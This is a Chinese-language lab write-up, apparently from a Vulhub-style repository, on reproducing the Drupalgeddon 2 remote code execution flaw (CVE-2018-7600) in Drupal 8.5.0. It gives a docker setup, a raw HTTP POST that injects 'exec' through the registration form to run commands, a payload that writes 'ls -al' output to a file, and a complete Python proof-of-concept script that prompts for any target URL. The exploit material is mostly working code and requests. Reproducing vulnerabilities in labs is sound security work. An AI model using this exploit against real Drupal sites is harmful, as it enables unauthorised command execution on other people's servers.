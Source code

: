 # Drupal Drupalgeddon 2 远程代码执行漏洞 CVE-2018-7600

## 漏洞描述

Drupal 是一款用量庞大的CMS，其6/7/8版本的Form API中存在一处远程代码执行漏洞。相关分析如下：

- https://research.checkpoint.com/uncovering-drupalgeddon-2/

## 环境搭建

Vulhub执行如下命令启动drupal 8.5.0的环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

安装方式参考CVE-2014-3704

## 漏洞复现

向安装完成的drupal发送如下数据包：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

![image-20220222194824997](./images/202202221948098.png)

参考[a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py)，成功写入文件hello.txt：

![image-20220222194214877](./images/202202221942007.png)

可以执行命令，将结果输出到1.txt

```
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo `ls -al` | tee 1.txt'}
```

查看1.txt文件内容，即`ls -al`命令执行结果

![image-20220222201852579](./images/202202222018658.png)

## 漏洞POC

```python
#!/usr/bin/env python3
import sys
import requests

print ('################################################################')
print ('# Proof-Of-Concept for CVE-2018-7600')
print ('# by Vitalii Rudnykh')
print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
print ('# https://github.com/a2u/CVE-2018-7600')
print ('################################################################')
print ('Provided only for educational or information purposes\n')

target = input('Enter target url (example: https://domain.ltd/): ')

# Add proxy support (eg. BURP to analyze HTTP(s) traffic)
# set verify = False if your proxy certificate is self signed
# remember to set proxies both for http and https
# 
# example:
# proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
# verify = False
proxies = {}
verify = True

url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo ";-)" | tee hello.txt'}

r = requests.post(url, proxies=proxies, data=payload, verify=verify)
check = requests.get(target + 'hello.txt', proxies=proxies, verify=verify)
if check.status_code != 200:
  sys.exit("Not exploitable")
print ('\nCheck: '+target+'hello.txt')
```

